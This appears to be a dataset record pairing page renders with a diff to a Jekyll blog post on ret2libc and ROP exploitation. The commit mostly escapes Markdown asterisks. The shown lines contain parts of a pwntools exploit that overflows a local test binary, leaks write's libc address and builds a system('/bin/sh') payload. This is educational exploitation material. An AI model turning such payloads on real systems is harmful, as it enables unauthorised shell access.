

Before and after one commit to pench3r/OldBlog, a Jekyll site: the page built from _posts/2018-03-30-ret2libc-rop.md, in a window 1280 px wide and 1400 px high, scrolled down 4404 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

```diff
--- a/_posts/2018-03-30-ret2libc-rop.md
+++ b/_posts/2018-03-30-ret2libc-rop.md
@@ -25,7 +25,9 @@ int main(int argc, char \*argv[]) {
     vul_func();
     write(STDOUT_FILENO,"ROP test\n", 9);
     return 0;
-}</pre>
+}
+</pre>
+
 
 运行:
 
@@ -78,7 +80,7 @@ p = remote('127.0.0.1', 10000) #remote
 
 # debug
 #context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
-#gdb.attach(proc.pidof(p)[0], gdbscript='b *0x804843f\nr\n')
+#gdb.attach(proc.pidof(p)[0], gdbscript='b \*0x804843f\nr\n')
 
 payload_len = 140
 system_addr = 0xb7e3c850
@@ -166,10 +168,10 @@ write_plt_got_addr = elf.got['write']
 print "wirte plt got addr " + hex(write_plt_got_addr)
 vul_func = 0x0804841b
 
-payload = "A"*payload_len + p32(write_plt_addr) + p32(vul_func) + p32(1) + p32(write_plt_got_addr) + p32(4)
+payload = "A"\*payload_len + p32(write_plt_addr) + p32(vul_func) + p32(1) + p32(write_plt_got_addr) + p32(4)
 print payload
 
-print "[*] begin to leak write_addr function address...\n"
+print "[\*] begin to leak write_addr function address...\n"
 p.send(payload)
 
 write_addr = u32(p.recv(4))
@@ -238,9 +240,9 @@ write_plt_got_addr = elf.got['write']
 print "wirte plt got addr " + hex(write_plt_got_addr)
 vul_func = 0x0804841b
 
-payload = "A"*payload_len + p32(write_plt_addr) + p32(vul_func) + p32(1) + p32(write_plt_got_addr) + p32(4)
+payload = "A"\*payload_len + p32(write_plt_addr) + p32(vul_func) + p32(1) + p32(write_plt_got_addr) + p32(4)
 
-print "[*] begin to leak write_addr function address...\n"
+print "[\*] begin to leak write_addr function address...\n"
 p.send(payload)
 
 write_addr = u32(p.recv(4))
@@ -251,8 +253,8 @@ print "[+] the system_addr function address is " + hex(system_addr)
 binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
 print "[+] the /bin/sh str address is " + hex(binsh_addr)
 
-print "[*] begin to get shell...\n"
-payload2 = "A"*payload_len + p32(system_addr) + p32(vul_func) + p32(binsh_addr)
+print "[\*] begin to get shell...\n"
+payload2 = "A"\*payload_len + p32(system_addr) + p32(vul_func) + p32(binsh_addr)
 
 p.send(payload2)
 
```
